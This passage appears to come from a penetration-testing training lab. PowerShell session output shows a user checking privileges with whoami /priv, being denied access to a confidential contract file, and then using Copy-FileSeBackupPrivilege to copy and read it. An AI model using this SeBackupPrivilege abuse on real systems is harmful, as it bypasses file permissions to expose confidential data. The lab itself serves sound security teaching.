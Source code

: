 ```powershell-session
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

**Copying a Protected File**

```powershell-session
PS C:\htb> dir C:\Confidential\

    Directory: C:\Confidential

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/6/2021   1:01 PM             88 2021 Contract.txt


PS C:\htb> cat 'C:\Confidential\2021 Contract.txt'

cat : Access to the path 'C:\Confidential\2021 Contract.txt' is denied.
At line:1 char:1
+ cat 'C:\Confidential\2021 Contract.txt'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Confidential\2021 Contract.txt:String) [Get-Content], Unauthor
   izedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```

```powershell-session
PS C:\htb> Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt

Copied 88 bytes


PS C:\htb>  cat .\Contract.txt

Inlanefreight 2021 Contract

==============================

Board of Directors:

<...SNIP...
```
